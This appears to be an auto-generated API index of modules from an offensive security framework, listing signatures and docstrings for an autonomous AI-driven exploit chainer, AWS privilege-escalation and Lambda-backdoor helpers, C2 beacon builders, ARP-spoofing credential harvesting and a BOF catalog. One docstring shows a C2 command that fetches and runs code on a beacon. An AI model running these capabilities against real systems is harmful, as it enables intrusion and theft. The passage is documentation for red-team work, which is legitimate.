**File Doc:** *Registry of loop-ready automation verbs (the ``auto_*`` family).  Every entry is a LazyOwn shell command that is already fully automated (``auto_pwn``, ``autopivot``, ``automsf``, ``autoblody``, ``auto_populate``, ``pyautomate`` — the ``pwntomate`` engine underneath). The autonomous loop consults this registry in two places:  - planning: :func:`propose_intents` turns scope + goal keywords into ``auto <verb>`` intents the planner can claim like any other intent; - execution: :func:`steps_for` translates those intents back into the concrete shell command line, and :func:`execute_shell_verb` runs shell verbs with captured output inside the loop executor.  Stdlib only: ``lazy_loop`` may import this without dependency cycles.*

**Classes:**
- `AutoVerb` (line 66) `class AutoVerb` - *One automation verb the loop may invoke autonomously.

Args:
    verb: Canonical shell verb (``do_<verb>`` must exist).
    phases: Kill-chain phases this verb serves.
    keywords: Intent/goal signals that select this verb.
    needs_target: When True the built line carries the loop target.
    extra_args: Fixed tail args appended after the target.
    description: Human/operators note shown in intent text.*
- `ShellResult` (line 642) `class ShellResult` - *Captured outcome of one shell-verb execution.*
- `_TeeCapture` (line 649) `class _TeeCapture(StringIO)` - *StringIO that forwards every write chunk to an observer.

The observer frequently prints (progress panels, streamers) and it
runs while ``stdout`` is redirected to *this* buffer, so an observer
printing to stdout would recurse into ``write`` forever. A per-thread
reentrancy flag stops the cycle: nested writes still land in the
buffer, but the observer is only invoked on the outermost write.*

**Functions:**
- `auto_verb_target` (line 35) `def auto_verb_target(command)` - *Return the target an ``auto <verb> <target>`` line carries, else ''.

Auto verbs historically read ``payload.json`` (rhost); the loop
binds each intent to its own target, so the executor overrides the
payload for the duration of the verb under a lock. Routable verbs
like ``lazynmap`` carry the target the same way.*
- `_verb_rows` (line 136) `def _verb_rows()` - *Merged auto-verb rows (built-ins + operator overrides) as objects.

Each row exposes the historical ``AutoVerb`` attributes (``verb``,
``phases``, ``keywords``, ``needs_target``, ``extra_args``,
``description``) plus ``enabled`` and ``source`` so existing callers
keep working while the orchestrator config decides what is live.*
- `_verb_row` (line 180) `def _verb_row(name)` - *Return one merged auto-verb row by name, or None.*
- `verb_enabled` (line 189) `def verb_enabled(name)` - *Return whether one auto verb may be proposed or executed.*
- `_repo_base` (line 274) `def _repo_base()` - *Return repository root without importing engine modules.*
- `binary_available` (line 281) `def binary_available(name)` - *Return True when a command token can actually execute here.

Shell builtins, repo-local scripts and explicit paths pass so the
check only flags standalone offensive tools missing from ``PATH``.*
- `missing_binary` (line 297) `def missing_binary(command)` - *Return the first binary a shell command needs but PATH lacks.*
- `verb_gap` (line 309) `def verb_gap(verb)` - *Return a human reason when an automation verb cannot run, else ''.*
- `verb_available` (line 321) `def verb_available(verb)` - *Return True when every binary an automation verb needs is installed.*
- `service_tokens` (line 326) `def service_tokens(service_text)` - *Normalize a service asset value into matchable tokens.*
- `_parse_trigger_lines` (line 337) `def _parse_trigger_lines(lines, start)` - *Parse a YAML trigger value starting at line index.

Handles inline ``[a, b]`` / ``["a"]`` / scalar forms plus dash
lists on the following lines. Returns tokens and next index.*
- `iter_addon_triggers` (line 368) `def iter_addon_triggers()` - *Scan enabled lazyaddons for (name, trigger tokens) pairs.*
- `iter_tool_triggers` (line 404) `def iter_tool_triggers()` - *Scan active pwntomate tools for (toolname, trigger tokens) pairs.*
- `addon_hits_for` (line 427) `def addon_hits_for(service_text, limit)` - *Rank addon/tool names matching one service value.

Specific trigger matches rank before ``all`` wildcards so generic
packs never crowd out service-tailored modules.*
- `propose_addon_intents` (line 453) `def propose_addon_intents(service_texts, target, limit)` - *Propose addon intents for discovered services.

Lazyaddons run one-to-one via ``lazy addon <name>``; pwntomate tool
hits collapse into a single ``auto pyautomate`` intent since tools
only execute as a batch over nmap XML.*
- `is_routable_command` (line 479) `def is_routable_command(line)` - *Return True when the loop executor must route via the shell.*
- `verbs` (line 497) `def verbs()` - *Return every canonical automation verb name.*
- `is_shell_verb` (line 502) `def is_shell_verb(token)` - *Return True when ``token`` names a loop-routable shell verb.

Built-in auto verbs always route. When full-CLI mode is enabled any
real ``do_<verb>`` shell command routes as well, so the loop reaches
the whole cmd2 surface through the same Guard and scope path.*
- `build_command` (line 524) `def build_command(verb, target)` - *Build the shell command line for ``verb`` bound to ``target``.*
- `verbs_for` (line 535) `def verbs_for(text)` - *Return enabled verbs whose keywords appear in the text.*
- `propose_intents` (line 541) `def propose_intents(goal, target, finding_texts)` - *Propose ``auto <verb>`` intent summaries for planner candidates.

Verbs whose required binaries are not installed are skipped so the
planner never dispatches work this host cannot execute.*
- `steps_for` (line 558) `def steps_for(text, target)` - *Translate an intent summary into shell command lines, or None.

Handles the explicit ``auto <verb>`` form, the ``lazy addon <name>``
form from service-trigger matching, plus the implicit keyword
signals for exploit/pivot/privesc/msf/populate work. Returns None
when the intent carries no automation signal (caller keeps its
default bash probes) or when the verb's tooling is unavailable.*
- `execute_shell_verb` (line 677) `def execute_shell_verb(shell, command, timeout_sec, on_output)` - *Run a LazyOwn shell verb capturing stdout, with a hard timeout.

Uses the same redirect+thread pattern as the agent runner: the verb
runs off-thread so a hanging automation (listener, prompt) cannot
wedge the loop. Never raises; timeouts report as text the loop can
record as a fact like any other transcript.

Args:
    shell: Live LazyOwn shell.
    command: Routable shell verb line.
    timeout_sec: Hard timeout for the background verb.
    on_output: Optional callback receiving output chunks live so the
        operator watches colored tool output while it runs.*
- `_register_process` (line 775) `def _register_process(process)` - *Track a live streaming process for cancellation.*
- `_unregister_process` (line 781) `def _unregister_process(process)` - *Drop a finished streaming process from the tracker.*
- `track_process` (line 787) `def track_process(process)` - *Register a live child process for global cancellation.*
- `untrack_process` (line 792) `def untrack_process(process)` - *Drop a finished child process from the cancellation registry.*
- `cancel_running_commands` (line 797) `def cancel_running_commands()` - *Kill every live streaming process group (operator Ctrl+C).

Returns:
    Number of process groups signalled.*
- `execute_streaming` (line 820) `def execute_streaming(command, on_output, timeout_sec)` - *Run a bash command streaming lines while capturing the output.

Args:
    command: Shell command line (pipes/redirects allowed, gated by
        the guard, scope and constraint layers before it gets here).
    on_output: Optional callback receiving each output line live.
    timeout_sec: Hard timeout; the process is killed on expiry.

Returns:
    Full captured output, or a TIMEOUT/error transcript line.*
- `_invoke` (line 700) `def _invoke()`
- `_target` (line 711) `def _target()`
- `_kill` (line 852) `def _kill()`

**Methods:**
- `__init__` (line 659) `def __init__(self, observer)`
- `write` (line 664) `def write(self, data)` - *Capture text and stream the chunk to the observer once.*

#### `autonomous_exploit_engine.py`
**Path:** `modules/autonomous_exploit_engine.py`
**File Doc:** *Autonomous Exploitation Engine — AI-powered self-adapting exploit chainer.  Provides an ``AutonomousExploitEngine`` that reads the current world model, ranks exploit candidates by service version, generates custom payloads on the fly, executes them through the framework, and adapts its strategy based on results. Designed to work with or without an external LLM — falls back to heuristic matching when no API key is configured.  Architecture: ReconFeeder -> TargetProfiler -> ExploitRanker -> PayloadFactory -> Executor ^                                                                    | |________________________ Feedback Loop ____________________________|  Security: No exec/eval of untrusted input. All payloads go through the existing ``modules/payload_factory.py`` which validates templates. Shell commands are templated from ``payload.json`` only — no raw user input accepted.  Usage: from modules.autonomous_exploit_engine import AutonomousExploitEngine engine = AutonomousExploitEngine() results = engine.hunt(target="10.10.11.5")*

**Classes:**
- `TargetProfile` (line 59) `class TargetProfile` - *Immutable snapshot of a target's attack surface.*
- `ExploitCandidate` (line 74) `class ExploitCandidate` - *A ranked exploit ready for execution.*
- `ExploitResult` (line 89) `class ExploitResult` - *Outcome of a single exploit attempt.*
- `AutonomousExploitEngine` (line 101) `class AutonomousExploitEngine` - *Self-adapting exploit engine that chains through a target's attack surface.

Public methods:
    hunt(target) -> list[ExploitResult]
    profile(target) -> TargetProfile
    rank_exploits(profile) -> list[ExploitCandidate]
    execute_candidate(candidate, profile) -> ExploitResult*

**Functions:**
- `_is_placeholder` (line 299) `def _is_placeholder(value)`

**Methods:**
- `__init__` (line 114) `def __init__(self)`
- `get_instance` (line 134) `def get_instance(cls)`
- `hunt` (line 145) `def hunt(self, target, max_exploits, profile)` - *Execute a full autonomous exploitation chain against a target.

Args:
    target: IP address or hostname of the target.
    max_exploits: Maximum exploit attempts before stopping.
    profile: Optional cached TargetProfile (avoids re-profiling).

Returns:
    List of ExploitResult objects, one per attempt.*
- `retry_with_credentials` (line 184) `def retry_with_credentials(self, target, credentials)` - *Re-execute exploit chain using captured credentials.

When the world model receives new credentials this method re-ranks
exploit candidates with credential awareness, injecting discovered
usernames and passwords into authenticated strategies. Returns only
the new results from this retry.

Args:
    target: IP address of the target.
    credentials: Optional list of credential dicts with ``username``,
        ``password``, ``hash`` keys. When omitted, reads from world model.

Returns:
    Newly executed ExploitResult objects.*
- `_credential_aware_rank` (line 241) `def _credential_aware_rank(self, profile, credentials)` - *Re-rank exploit candidates boosting those usable with available credentials.

Detects whether credentials are plaintext (user:pass), hash-based
(NTLM), or empty and adjusts confidence scores accordingly.

Args:
    profile: Target profile.
    credentials: List of credential dicts.

Returns:
    Re-ranked list of ExploitCandidate sorted by boosted confidence.*
- `_filter_placeholder_creds` (line 284) `def _filter_placeholder_creds(credentials)`
- `profile` (line 328) `def profile(self, target)` - *Build a TargetProfile from existing recon data.

Args:
    target: IP address to profile.

Returns:
    Immutable TargetProfile.*
- `rank_exploits` (line 389) `def rank_exploits(self, profile)` - *Rank exploit candidates by confidence for a given profile.

Args:
    profile: TargetProfile built from recon.

Returns:
    Ranked list of ExploitCandidate objects.*
- `execute_candidate` (line 412) `def execute_candidate(self, candidate, profile)` - *Execute a single exploit candidate and return the result.

Args:
    candidate: The ExploitCandidate to attempt.
    profile: The current TargetProfile.

Returns:
    ExploitResult with outcome.*
- `_match_exploit_db` (line 454) `def _match_exploit_db(self, service, product, version)` - *Match a service against known exploit patterns.

Args:
    service: Service name (e.g. http, smb, ssh).
    product: Product name (e.g. Apache, OpenSSH).
    version: Version string.

Returns:
    List of matching ExploitCandidate objects.*
- `_heuristic_match` (line 492) `def _heuristic_match(self, service, product, version)` - *Heuristic exploit matching without external DB.

Args:
    service: Service name.
    product: Product name.
    version: Version string.

Returns:
    List of heuristic ExploitCandidate objects.*
- `_match_by_port` (line 962) `def _match_by_port(self, port, os_type)` - *Generate exploit candidates based on port number alone.

Args:
    port: Port number as string.
    os_type: Detected OS type.

Returns:
    List of port-based ExploitCandidate objects.*
- `_scorer` (line 1019) `def _scorer(self, exploit, service, product, version)` - *Score how well an exploit matches the target service.

Args:
    exploit: Exploit metadata dict.
    service: Target service name.
    product: Target product name.
    version: Target version string.

Returns:
    Confidence score 0.0-1.0.*
- `_run_exploit` (line 1059) `def _run_exploit(self, candidate, profile)` - *Execute the exploit through LazyOwn's command runner.

Args:
    candidate: The exploit to run.
    profile: Target profile.

Returns:
    Command output as string.*
- `_resolve_port` (line 1088) `def _resolve_port(self, candidate, profile)` - *Resolve the actual port number for the candidate's service.

Args:
    candidate: The exploit candidate.
    profile: Target profile with service details.

Returns:
    Port number as string, or the service name if unresolvable.*
- `_build_command_chain` (line 1105) `def _build_command_chain(self, candidate, profile)` - *Build the command chain to execute an exploit candidate.

Args:
    candidate: The exploit to build a chain for.
    profile: Target profile.

Returns:
    List of shell command strings.*
- `_check_success` (line 1237) `def _check_success(self, output, candidate)` - *Check if exploit output indicates success.

Args:
    output: Command output string.
    candidate: The exploit that was attempted.

Returns:
    True if signs of success detected.*
- `_detect_shell` (line 1330) `def _detect_shell(self, output)` - *Detect if a shell was obtained from exploit output.

Args:
    output: Command output to analyze.

Returns:
    True if shell indicators found.*
- `_determine_access_level` (line 1358) `def _determine_access_level(self, ip, credentials)` - *Determine current access level to target.

Args:
    ip: Target IP.
    credentials: Known credentials list.

Returns:
    Access level string: none, user, admin, system.*
- `_register_session` (line 1388) `def _register_session(self, ip, output)` - *Register a new session after successful exploitation.

Args:
    ip: Target IP.
    output: Session output.

Returns:
    Session ID string.*
- `_load_payload_config` (line 1416) `def _load_payload_config(self)` - *Load the payload.json configuration.

Returns:
    Configuration dict.*
- `_load_world_model` (line 1427) `def _load_world_model(self, target)` - *Load the world model for a given target.

Args:
    target: Target IP address.

Returns:
    World model dict or empty dict.*
- `_detect_os_from_payload` (line 1524) `def _detect_os_from_payload(self)` - *Read os_id from payload.json and return OS type string.

Returns:
    'linux', 'windows', or None if not set.*
- `_load_from_nmap_xml` (line 1542) `def _load_from_nmap_xml(self, target)` - *Fallback: parse nmap XML files for service data.

Args:
    target: Target IP address.

Returns:
    Dict with services or empty dict.*
- `_get_os_type` (line 1621) `def _get_os_type(self, profile)` - *Normalize OS type string.

Args:
    profile: Target profile.

Returns:
    Normalized OS type.*
- `_apply_stealth_delay` (line 1637) `def _apply_stealth_delay(self)` - *Apply a random delay based on current stealth level.*
- `scan_vulnerabilities` (line 1648) `def scan_vulnerabilities(self, profile)` - *Scan for vulnerabilities using NSE output and heuristic version matching.

Args:
    profile: TargetProfile to scan.

Returns:
    List of vuln dicts with keys: cve, severity, description, affected_service, fix_version.*
- `_parse_nse_output` (line 1674) `def _parse_nse_output(self, target_ip)` - *Parse Nmap NSE vuln script output from sessions/ directory.

Args:
    target_ip: Target IP address.

Returns:
    List of parsed vulnerability dicts.*
- `_extract_cves_from_text` (line 1709) `def _extract_cves_from_text(self, text)` - *Extract CVE references and severity info from text output.

Args:
    text: Raw text containing CVE references.

Returns:
    List of extracted vuln dicts.*
- `_match_service_banners` (line 1757) `def _match_service_banners(self, profile)` - *Heuristic vuln matching based on service banners from profile.

Args:
    profile: TargetProfile with service information.

Returns:
    List of vuln dicts matched from heuristic DB.*
- `_check_known_cves` (line 1937) `def _check_known_cves(self, profile)` - *Cross-reference known CVEs from the profile's vuln_found field.

Args:
    profile: TargetProfile with vulns_found data.

Returns:
    List of vuln dicts from profile data.*
- `chain_privesc` (line 1963) `def chain_privesc(self, profile, session_id)` - *Run privilege escalation checks and attempt escalation techniques.

Args:
    profile: TargetProfile of the compromised host.
    session_id: Session ID of the active shell.

Returns:
    List of ExploitResult for each privesc attempt.*
- `_run_linux_privesc_checks` (line 1991) `def _run_linux_privesc_checks(self, profile, session_id)` - *Run standard Linux privilege escalation enumeration commands.

Args:
    profile: TargetProfile.
    session_id: Session ID.

Returns:
    Dict of findings categorized by type.*
- `_run_windows_privesc_checks` (line 2060) `def _run_windows_privesc_checks(self, profile, session_id)` - *Run standard Windows privilege escalation enumeration commands.

Args:
    profile: TargetProfile.
    session_id: Session ID.

Returns:
    Dict of findings categorized by type.*
- `_match_privesc_techniques` (line 2103) `def _match_privesc_techniques(self, findings, os_type)` - *Match enumeration findings against known privesc techniques.

Args:
    findings: Results from privesc checks.
    os_type: Target OS type.

Returns:
    List of technique dicts sorted by confidence.*
- `_execute_privesc` (line 2293) `def _execute_privesc(self, technique, profile, session_id)` - *Attempt a single privilege escalation technique.

Args:
    technique: Technique dict with name, strategy, description.
    profile: TargetProfile.
    session_id: Session ID.

Returns:
    ExploitResult with outcome.*
- `trigger_pivot` (line 2393) `def trigger_pivot(self, profile, session_id)` - *Discover internal interfaces and trigger auto-pivoting through a compromised host.

Args:
    profile: TargetProfile of the compromised host.
    session_id: Session ID of the active shell.

Returns:
    Dict with pivot chain info: subnets, routes, proxychains_config.*
- `_discover_internal_interfaces` (line 2458) `def _discover_internal_interfaces(self, profile)` - *Run commands to discover internal interfaces and routing.

Args:
    profile: TargetProfile.

Returns:
    Dict with internal_ips, routes, and raw command_output.*
- `enable_stealth` (line 2519) `def enable_stealth(self, stealth_level)` - *Configure the engine's stealth level for evasion.

Args:
    stealth_level: One of "low", "medium", "high", "paranoid".

Returns:
    Dict with the active stealth configuration.*
- `_get_stealth_scan_flags` (line 2564) `def _get_stealth_scan_flags(self)` - *Return nmap flags appropriate for the current stealth level.

Returns:
    List of nmap argument strings.*
- `full_auto_pwn` (line 2583) `def full_auto_pwn(cls, target, enable_pivot, enable_privesc, stealth)` - *Execute the full autonomous exploit chain against a target.

Runs scan -> profile -> rank -> exploit with optional privesc and pivot.

Args:
    target: IP address or hostname.
    enable_pivot: Trigger auto-pivot after successful exploitation.
    enable_privesc: Attempt privilege escalation after getting a shell.
    stealth: Stealth level: "low", "medium", "high", "paranoid".

Returns:
    Comprehensive results dict with summary.*

#### `aws_attacks.py`
**Path:** `modules/aws_attacks.py`
**File Doc:** *AWS privilege escalation — IAM enumeration, Lambda backdoors, STS role chaining.  Provides attack primitives for Amazon Web Services: IAM privilege escalation paths, EC2 instance metadata abuse, Lambda function backdooring, STS assume role chaining, CloudFormation drift exploitation, and S3 bucket enumeration.  Uses boto3 for API operations when available; falls back to curl/HTTP commands.*

**Classes:**
- `AWSConfig` (line 58) `class AWSConfig` - *Configuration for AWS attack operations.

Attributes:
    access_key_id: AWS access key.
    secret_access_key: AWS secret key.
    session_token: STS session token (for temporary credentials).
    region: AWS region.
    account_id: AWS account ID.
    role_arn: IAM role ARN to target.
    user_name: IAM user to enumerate.*
- `AWSAttackEngine` (line 80) `class AWSAttackEngine` - *Execute AWS privilege escalation and enumeration attacks.

Provides IAM permission enumeration, Lambda backdoor insertion,
STS role chaining, EC2 user data exfiltration, and S3 data access.

Attributes:
    config: AWSConfig with credentials and target.
    client_cache: Cached boto3 clients.*

**Methods:**
- `__init__` (line 91) `def __init__(self, config)`
- `enumerate_iam_permissions` (line 95) `def enumerate_iam_permissions(self)` - *Enumerate IAM permissions for the current user/role.

Simulates permission boundary testing to identify privilege
escalation paths. Returns structured data for analysis.

Returns:
    Dict with user info, policies, groups, and potential privesc paths.*
- `lambda_backdoor` (line 127) `def lambda_backdoor(self, function_name)` - *Plan a Lambda backdoor for privilege escalation.

If the attacker can iam:PassRole and lambda:UpdateFunctionCode,
they can modify an existing Lambda to exfiltrate its role credentials.

Args:
    function_name: Target Lambda function name.

Returns:
    Dict with Lambda backdooring commands.*
- `sts_role_chain` (line 155) `def sts_role_chain(self, target_role_arn)` - *Enumerate and exploit STS AssumeRole privilege escalation chains.

Discovers all roles the current user can assume and provides
lateral movement via role chaining to elevated access.

Args:
    target_role_arn: Specific role ARN to target.

Returns:
    Dict with role enumeration and chaining commands.*
- `ec2_user_data_exfil` (line 181) `def ec2_user_data_exfil(self)` - *Extract sensitive data from EC2 instance user data and metadata.

EC2 user data often contains deployment scripts with hardcoded
credentials, API keys, and configuration secrets.

Returns:
    Dict with IMDSv1/v2 commands and user data extraction.*
- `s3_enumeration` (line 206) `def s3_enumeration(self)` - *Enumerate S3 buckets and their permissions.

Maps public/private buckets, checks for write access, and identifies
buckets with sensitive naming patterns.

Returns:
    Dict with S3 enumeration commands and bucket patterns.*
- `cloudformation_drift` (line 242) `def cloudformation_drift(self)` - *Exploit CloudFormation for privilege escalation.

CloudFormation executes with the privileges of the user who created
the stack or the stack's service role. Modifying CF templates can
create IAM resources with elevated permissions.

Returns:
    Dict with CF drift exploitation commands.*
- `ec2_ssm_session_abuse` (line 274) `def ec2_ssm_session_abuse(self)` - *Abuse SSM to gain shell access to EC2 instances.

If a user has ssm:StartSession, they can open interactive shells
to managed instances.

Returns:
    Dict with SSM abuse commands.*
- `summary` (line 293) `def summary(self)`

#### `beacon_config_builder.py`
**Path:** `modules/beacon_config_builder.py`
**File Doc:** *Beacon configuration builder — wires profile engines into beacon compile-time config.  This module bridges the C2 profile engine, sleep obfuscation engine, socks proxy engine, and BOF registry into concrete `#define` directives and template variables that ``gen_beacon.sh`` and ``c2_builder.py`` consume to produce profile-aware beacons.  Contracts: - BeaconConfig: dataclass holding all beacon compile-time definitions - BeaconConfigBuilder: builds a BeaconConfig from payload + engine state - generate_beacon_profile_args: produces CLI args for gen_beacon.sh - generate_go_implant_template_vars: produces template context for Go implant - generate_bof_execution_command: produces ``bof:<url>`` commands for beacons  Design (SOLID): - Single Responsibility: only concerns compile-time config generation - Open/Closed: new engines registered via dict, not code changes - Liskov: all engine outputs are dicts, safely composable - Interface Segregation: outputs are separate for C beacon vs Go implant - Dependency Inversion: depends on engine interfaces, not concrete beacons  Usage: from modules.beacon_config_builder import BeaconConfigBuilder  builder = BeaconConfigBuilder.from_payload(payload) config = builder.build() args = config.to_gen_beacon_args() go_vars = config.to_go_implant_vars()*

**Classes:**
- `BeaconConfig` (line 44) `class BeaconConfig` - *Complete beacon compile-time configuration.

All fields map directly to ``#define`` directives in ``gen_beacon.sh``
or template variables in the Go implant.*
- `BeaconConfigBuilder` (line 237) `class BeaconConfigBuilder` - *Builds BeaconConfig from payload and engine state.

Composes data from ``payload.json``, ``modules/c2_profile_engine``,
``modules/sleep_obfuscation``, and ``modules/socks_proxy`` into a
single BeaconConfig ready for beacon compilation.*

**Functions:**
- `generate_bof_execution_command` (line 416) `def generate_bof_execution_command(bof_name, c2_url, client_id, args, bofs_dir)` - *Generate a ``bof:<url>`` command that the C beacon executes.

The C beacon downloads the BOF from the C2 endpoint and executes it
via its internal COFFLoader. This function produces the exact command
string the operator should issue to the C2 to deploy a BOF.

Args:
    bof_name: BOF catalog name (e.g., ``ldap_enum``).
    c2_url: C2 base URL (e.g., ``https://10.10.14.1:4444``).
    client_id: Target beacon client ID.
    args: Optional arguments to pass to the BOF.

Returns:
    A command string like ``bof:https://10.10.14.1:4444/download/bofs/ldap_enum``.*

**Methods:**
- `to_gen_beacon_args` (line 117) `def to_gen_beacon_args(self)` - *Produce CLI arguments for gen_beacon.sh.*
- `to_go_implant_vars` (line 137) `def to_go_implant_vars(self)` - *Produce template variables for the Go implant builder.*
- `to_config_json` (line 160) `def to_config_json(self)` - *Produce the config.json that beacons fetch on startup.*
- `to_dict` (line 185) `def to_dict(self)` - *Full serialization of beacon config.*
- `__init__` (line 245) `def __init__(self, payload)`
- `build` (line 248) `def build(self, name)` - *Build a complete BeaconConfig.

Args:
    name: Optional beacon name override (uses payload line if not set).

Returns:
    A fully populated BeaconConfig.*
- `_inject_profile_engine` (line 318) `def _inject_profile_engine(self, config)` - *Hydrate TLS, DNS, SMB, WebSocket configs from ProfileEngine.*
- `_inject_sleep_engine` (line 366) `def _inject_sleep_engine(self, config)` - *Hydrate sleep obfuscation config from SleepObfuscationEngine.*
- `_inject_socks_engine` (line 385) `def _inject_socks_engine(self, config)` - *Hydrate SOCKS proxy config from SocksProxyEngine.*
- `from_payload` (line 403) `def from_payload(cls, payload)` - *Build a BeaconConfigBuilder from a payload dictionary.*
- `from_payload_file` (line 408) `def from_payload_file(cls, path)` - *Build a BeaconConfigBuilder by loading payload.json from disk.*

#### `beacon_history.py`
**Path:** `modules/beacon_history.py`
**File Doc:** *Persistent beacon command/result history storage.  Owns the on-disk JSONL history for beacon results so the C2, the Flask GUI and GUI2 all replay the same ordered timeline. Kept module-scoped (no Flask dependency) so it is unit-testable without booting the C2 application.  Contract: - ``BeaconHistoryConfig`` holds the storage root and the history suffix. - ``append_record`` appends one record (atomic, safe for concurrent implant polls). - ``read_records`` returns the ordered records for a beacon. - ``records_path`` resolves the history file for a sanitised beacon id.*

**Classes:**
- `BeaconHistoryConfig` (line 28) `class BeaconHistoryConfig` - *Centralised configuration for beacon history storage.

Attributes:
    base_dir: Root directory that contains the ``sessions`` folder.
    history_suffix: File suffix appended to a beacon id for its history.*

**Functions:**
- `sanitize_client_id` (line 70) `def sanitize_client_id(client_id)` - *Sanitise a beacon id to only URL/file-safe characters.

Args:
    client_id: Raw beacon id.

Returns:
    The sanitised id containing only alphanumerics, dashes and underscores.*
- `append_record` (line 82) `def append_record(record, config)` - *Append one beacon result record to the persistent JSONL history.

The write is atomic (append to a temp file then replace) so concurrent
beacon polls never interleave partial lines.

Args:
    record: The normalised beacon record dict.
    config: Storage configuration (defaults to the standard sessions layout).

Returns:
    True when the append succeeded, False otherwise.*
- `read_records` (line 116) `def read_records(client_id, config)` - *Read the ordered JSONL history for a beacon client id (oldest first).

Args:
    client_id: The beacon id whose history is requested.
    config: Storage configuration.

Returns:
    A list of record dicts in chronological order.*
- `records_path` (line 145) `def records_path(client_id, config)` - *Resolve the history file path for a beacon client id.

Args:
    client_id: The beacon id whose history path is requested.
    config: Storage configuration.

Returns:
    The resolved history file path.*

**Methods:**
- `sessions_dir` (line 39) `def sessions_dir(self)` - *Return the resolved sessions directory under the base dir.*
- `records_path` (line 43) `def records_path(self, client_id)` - *Resolve the history file path for a sanitised beacon client id.

The resolved path is verified to stay inside the sessions directory
so a bypassed or weakened sanitisation can never write outside the
storage root.

Args:
    client_id: Raw beacon id; it is sanitised against path traversal.

Returns:
    A :class:`pathlib.Path` inside the sessions directory.

Raises:
    ValueError: When the resulting path would escape the sessions dir.*

#### `bin2img.py`
**Path:** `modules/bin2img.py`

**Functions:**
- `binario_a_imagen` (line 7) `def binario_a_imagen(binario, imagen_input, imagen_output, block_size)`
- `main` (line 54) `def main()`

#### `bitm_engine.py`
**Path:** `modules/bitm_engine.py`
**File Doc:** *Browser-in-the-Middle (BitM) attack engine.  Automates ARP spoofing, transparent HTTP proxy injection, and credential harvesting. Coordinates bettercap/arpspoof with custom JavaScript payload injection to capture browser sessions, cookies, OAuth tokens, and form submissions from target browsers.*

**Classes:**
- `BitMState` (line 85) `class BitMState` - *Current state of a BitM campaign.*

**Functions:**
- `_ensure_bitm_dir` (line 103) `def _ensure_bitm_dir()` - *Create the BitM sessions directory if it does not exist.*
- `_save_state` (line 108) `def _save_state(state)` - *Persist BitM campaign state to disk.

Args:
    state: Current BitM campaign state.*
- `_load_state` (line 134) `def _load_state()` - *Load the saved BitM campaign state from disk.

Returns:
    Saved BitM state, or a fresh empty state.*
- `_build_js_payload` (line 151) `def _build_js_payload(payload_name, lhost, lport)` - *Build a JavaScript injection payload with attacker IP/port.

Args:
    payload_name: Key from JS_INJECT_PAYLOADS.
    lhost: Attacker IP.
    lport: Attacker HTTP listener port.

Returns:
    Minified JavaScript string ready for injection.*
- `_check_tool` (line 168) `def _check_tool(tool)` - *Verify a required external tool is on PATH.

Args:
    tool: Binary name to check.

Returns:
    True if the tool is available.*
- `_recommend_method` (line 180) `def _recommend_method()` - *Determine the best available ARP spoofing method.

Returns:
    Method identifier: 'bettercap', 'arpspoof', or 'mitmproxy'.*
- `_get_default_interface` (line 195) `def _get_default_interface()` - *Detect the default network interface.

Returns:
    Interface name (e.g. 'eth0', 'wlan0').*
- `_get_gateway_ip` (line 234) `def _get_gateway_ip()` - *Detect the default gateway IP.

Returns:
    Gateway IP address string.*
- `bitm_start` (line 257) `def bitm_start(target_ip, gateway_ip, interface, lhost, lport, method, payloads)` - *Start a Browser-in-the-Middle attack.

Args:
    target_ip: IP address of the victim machine.
    gateway_ip: Gateway IP (auto-detected if empty).
    interface: Network interface (auto-detected if empty).
    lhost: Attacker's IP for callbacks.
    lport: Attacker's HTTP listener port.
    method: ARP spoofing method ('bettercap', 'arpspoof', or 'auto').
    payloads: List of JS payload names to inject.

Returns:
    Dict with 'success' bool and 'state' or 'error' string.*
- `_start_bettercap` (line 354) `def _start_bettercap(target_ip, gateway_ip, interface, lhost, lport, js_payload, harvest_path)` - *Start bettercap with ARP spoofing and JS injection.

Args:
    target_ip: Victim IP.
    gateway_ip: Gateway IP.
    interface: Network interface.
    lhost: Attacker callback IP.
    lport: Attacker callback port.
    js_payload: Combined JavaScript inject string.
    harvest_path: Log file path.

Returns:
    Tuple of (success, pid_or_zero).*
- `_start_arpspoof` (line 413) `def _start_arpspoof(target_ip, gateway_ip, interface, lhost, lport, js_payload, harvest_path)` - *Start arpspoof + iptables-based traffic interception and JS injection.

Args:
    target_ip: Victim IP.
    gateway_ip: Gateway IP.
    interface: Network interface.
    lhost: Attacker callback IP.
    lport: Attacker callback port.
    js_payload: Combined JavaScript inject string.
    harvest_path: Log file path.

Returns:
    Tuple of (success, pid_or_zero).*
- `bitm_stop` (line 481) `def bitm_stop()` - *Stop a running BitM attack and clean up iptables.

Returns:
    Dict with status and harvested data summary.*
- `bitm_status` (line 539) `def bitm_status()` - *Return the current BitM attack status.

Returns:
    Dict with active state and campaign details.*
- `bitm_inject` (line 572) `def bitm_inject(payload_name)` - *Inject an additional JS payload into an active BitM session.

Args:
    payload_name: Key from JS_INJECT_PAYLOADS to inject.

Returns:
    Dict with success status.*
- `bitm_harvest_stats` (line 607) `def bitm_harvest_stats()` - *Return statistics on harvested credentials from the active/past campaign.

Returns:
    Dict with counts of cookies, form submissions, tokens, keystrokes.*
- `bitm_cleanup` (line 642) `def bitm_cleanup()` - *Force-kill all BitM processes and remove the state file.

Returns:
    Dict with cleanup status.*
- `main` (line 661) `def main()` - *CLI entry point — display BitM status from command line.*

#### `bof_registry.py`
**Path:** `modules/bof_registry.py`
**File Doc:** *Beacon Object File (BOF) registry and marketplace for LazyOwn.  Catalogs, indexes, and manages BOFs compatible with the TrustedSec SA BOF API. Supports both Windows COFF BOFs (Cobalt Strike compatible) and Linux ELF BOFs (BlacksandBeacon). Provides search, install, info, and update operations against a curated catalog.  The catalog is a static index of known BOFs with metadata: name, description, author, repository URL, compatible platforms, required arguments, MITRE ATT&CK technique references, and SHA-256 hashes.  Contracts: - BofEntry: immutable dataclass representing one BOF - BofCatalog: curated catalog of known BOFs - BofRegistry: manages installed BOFs on disk with version tracking - BofMarketplace: search/install/uninstall/info operations - BofValidator: validates BOF integrity (hash check, platform compatibility)  Design (SOLID): - Single Responsibility: catalog, registry, marketplace, and validation are separate classes with distinct concerns. - Open/Closed: new BOFs added via BofCatalog.register() without modifying the marketplace class. - Liskov: disk registry and in-memory catalog share no interface contract. - Interface Segregation: search, install, and validate are separate concerns. - Dependency Inversion: marketplace depends on catalog + registry abstractions.  Usage: from modules.bof_registry import BofMarketplace*

**Classes:**
- `BofPlatform` (line 61) `class BofPlatform(str, Enum)` - *Target platform for a Beacon Object File.*
- `BofCategory` (line 68) `class BofCategory(str, Enum)` - *Functional category of a BOF.*
- `BofEntry` (line 85) `class BofEntry` - *Immutable catalog entry for a single Beacon Object File.

Attributes:
